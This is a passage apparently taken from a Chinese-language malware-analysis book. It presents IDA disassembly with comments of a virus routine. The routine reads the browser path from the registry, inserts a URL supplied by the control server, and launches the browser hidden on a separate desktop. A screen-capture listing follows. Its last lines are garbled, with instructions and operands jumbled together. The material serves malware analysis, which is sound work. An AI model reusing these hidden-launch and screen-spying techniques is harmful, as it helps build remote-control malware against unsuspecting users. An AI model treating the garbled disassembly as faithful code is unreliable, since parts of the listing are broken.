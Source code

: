 `.text:10008A4D lea eax, [esp+1B0h+phkResult]    .text:10008A51 lea ecx, [esp+1B0h+SubKey]    .text:10008A55 push eax ; phkResult   .text:10008A56 push 20019h ; samDesired   .text:10008A5B push 0 ; ulOptions   .text:10008A5D mov dl, 78h    .text:10008A5F push ecx ; lpSubKey   .text:10008A60 push 80000000h ; hKey   .text:10008A65 mov [esp+1C4h+SubKey], 'A'    .text:10008A6A mov [esp+1C4h+var_18D], 'l'    .text:10008A6F mov [esp+1C4h+var_18C], 'i'    .text:10008A74 mov [esp+1C4h+var_18B], 'c'    .text:10008A79 mov [esp+1C4h+var_18A], 'a'    .text:10008A7E mov [esp+1C4h+var_189], 't'    .text:10008A83 mov [esp+1C4h+var_188], 'i'    .text:10008A88 mov [esp+1C4h+var_186], 'n'    .text:10008A8D mov [esp+1C4h+var_185], 's'    .text:10008A92 mov [esp+1C4h+var_184], '\'    .text:10008A97 mov [esp+1C4h+var_183], 'i'    .text:10008A9C mov [esp+1C4h+var_182], bl    .text:10008AA0 mov [esp+1C4h+var_181], dl    .text:10008AA4 mov [esp+1C4h+var_17F], 'l'    .text:10008AA9 mov [esp+1C4h+var_17D], 'r'    .text:10008AAE mov [esp+1C4h+var_17C], bl    .text:10008AB2 mov [esp+1C4h+var_17B], '.'    .text:10008AB7 mov [esp+1C4h+var_17A], bl    .text:10008ABB mov [esp+1C4h+var_179], dl    .text:10008ABF mov [esp+1C4h+var_178], bl    .text:10008AC3 mov [esp+1C4h+var_177], '\'    .text:10008AC8 mov [esp+1C4h+var_176], 's'    .text:10008ACD mov [esp+1C4h+var_175], 'h'    .text:10008AD2 mov [esp+1C4h+var_174], bl    .text:10008AD6 mov [esp+1C4h+var_173], 'l'    .text:10008ADB mov [esp+1C4h+var_172], 'l'              .text:10008AE0 mov [esp+1C4h+var_171], '\'   .text:10008AE5 mov [esp+1C4h+var_16E], bl   .text:10008AE9 mov [esp+1C4h+var_16D], 'n'   .text:10008AEE mov [esp+1C4h+var_16C], '\'   .text:10008AF3 mov [esp+1C4h+var_16B], 'c'   .text:10008AF8 mov [esp+1C4h+var_167], 'a'   .text:10008AFD mov [esp+1C4h+var_166], 'n'   .text:10008B02 mov [esp+1C4h+var_165], 'd'   .text:10008B07 mov [esp+1C4h+var_164], 0   .text:10008B0C mov [esp+1C4h+cbData], 104h   .text:10008B14 call ds:RegOpenKeyExA   ; 打开注册表HKEY_CLASSES_ROOT\Applications\iexplore.exe\shell\open\command   .text:10008B1A test eax, eax   .text:10008B1C jnz loc_10008C2F   .text:10008B22 mov ecx, [esp+1B0h+phkResult]   .text:10008B26 lea edx, [esp+1B0h+cbData]   .text:10008B2A lea eax, [esp+1B0h+Data]   .text:10008B31 push edx ; lpcbData   .text:10008B32 push eax ; lpData   .text:10008B33 push 0 ; lpSubKey   .text:10008B35 push ecx ; hKey   .text:10008B36 call ds:RegQueryValueA   ; 查询注册表HKEY_CLASSES_ROOT\Applications\iexplore.exe\shell\open\command，获取浏览器路径   .text:10008B3C mov edx, [esp+1B0h+phkResult]   .text:10008B40 push edx ; hKey   .text:10008B41 call ds:RegCloseKey ; 关闭注册表   .text:10008B47 lea eax, [esp+1B0h+Data]   .text:10008B4E push eax ; lpString   .text:10008B4F call ds:lstrlenA ; 获取浏览器路径长度   .text:10008B55 test eax, eax   .text:10008B57 jz loc_10008C2F   .text:10008B5D lea ecx, [esp+1B0h+SubStr]   .text:10008B61 lea edx, [esp+1B0h+Data]   .text:10008B68 push ecx ; SubStr   .text:10008B69 push edx ; Str   .text:10008B6A mov [esp+1B8h+SubStr], '%'   .text:10008B6F mov [esp+1B8h+var_1A3], '1'   .text:10008B74 mov [esp+1B8h+var_1A2], 0   .text:10008B79 call ds:strstr ; 获取浏览器路径%1的位置   .text:10008B7F add esp, 8   .text:10008B82 test eax, eax   .text:10008B84 jz loc_10008C2F   .text:10008B8A push esi ; lpString2   .text:10008B8B push eax ; lpString1   .text:10008B8C call ds:lstrcpyA; 将%1字符串替换为服务器传递的URL地址，当作命令行参数   .text:10008B92 mov ecx, 10h   .text:10008B97 xor eax, eax   .text:10008B99 lea edi, [esp+1B0h+StartupInfo.lpReserved]   .text:10008B9D mov [esp+1B0h+var_1A0], 57h   .text:10008BA2 rep stosd   .text:10008BA4 mov eax, 44h   .text:10008BA9 mov [esp+1B0h+var_19F], 'i'   .text:10008BAE mov [esp+1B0h+StartupInfo.cb], eax   .text:10008BB2 mov [esp+1B0h+var_198], al   .text:10008BB6 mov eax, [esp+1B0h+hide] ; 获取参数隐藏窗口标志             .text:10008BBD mov [esp+1B0h+var_19E], 'n'   .text:10008BC2 test eax, eax ; 检查是否隐藏创建浏览器进程   .text:10008BC4 mov [esp+1B0h+var_19D], 'S'   .text:10008BC9 mov [esp+1B0h+var_19C], 't'   .text:10008BCE mov [esp+1B0h+var_19B], 'a'   .text:10008BD3 mov [esp+1B0h+var_19A], '0'   .text:10008BD8 mov [esp+1B0h+var_199], '\'   .text:10008BDD mov [esp+1B0h+var_197], bl   .text:10008BE1 mov [esp+1B0h+var_196], 'f'   .text:10008BE6 mov [esp+1B0h+var_195], 'a'   .text:10008BEB mov [esp+1B0h+var_194], 'u'   .text:10008BF0 mov [esp+1B0h+var_193], 'l'   .text:10008BF5 mov [esp+1B0h+var_192], 't'   .text:10008BFA mov [esp+1B0h+var_191], 0   .text:10008BFF jz short loc_10008C09    .text:10008C01 lea eax, [esp+1B0h+var_1A0]   .text:10008C05 mov [esp+1B0h+StartupInfo.lpDesktop], eax ; 隐藏   .text:10008C09 lea ecx, [esp+1B0h+ProcessInformation]   .text:10008C0D lea edx, [esp+1B0h+StartupInfo]   .text:10008C11 push ecx ; lpProcessInformation   .text:10008C12 push edx ; lpStartupInfo   .text:10008C13 push 0 ; lpCurrentDirectory   .text:10008C15 push 0 ; lpEnvironment   .text:10008C17 push 0 ; dwCreationFlags   .text:10008C19 push 0 ; bInheritHandles   .text:10008C1B push 0 ; lpThreadAttributes   .text:10008C1D lea eax, [esp+1CCh+Data]   .text:10008C24 push 0 ; lpProcessAttributes   .text:10008C26 push eax ; lpCommandLine   .text:10008C27 push 0 ; lpApplicationName   .text:10008C29 call ds:CreateProcessA ; 创建浏览器进程   .text:10008C2F pop edi   .text:10008C30 pop esi   .text:10008C31 xor al, al   .text:10008C33 pop ebx   .text:10008C34 add esp, 1A4h   .text:10008C3A retn       如代码清单 16-11 所示，该病毒通过 GetDesktopWindow 获取桌面的 HDC，再通过 CreateDIBSection 获取桌面的像素信息。   代码清单16-11  屏幕查看代码片段   DllScreen函数实现代码：   .text:1000D888 call ds:GetDesktopWindow ; 获取桌面窗口句柄   .text:1000D88E push eax ; hWnd   .text:1000D88F   .text:1000D895 mov   call [esi+10Ch], eax   ds:GetDC    ; 获取桌面HDC   .text:1000D89B mov [esi+44h], eax    .text:1000D8C9 push ebx ; nIndex,SM_CXSCREEN   .text:1000D8CA mov [esi+14h], ecx    .text:1000D8CD mov [esi+18h], dl    .text:1000D8D0   .text:1000D8D3 mov   call [esi+24h], eax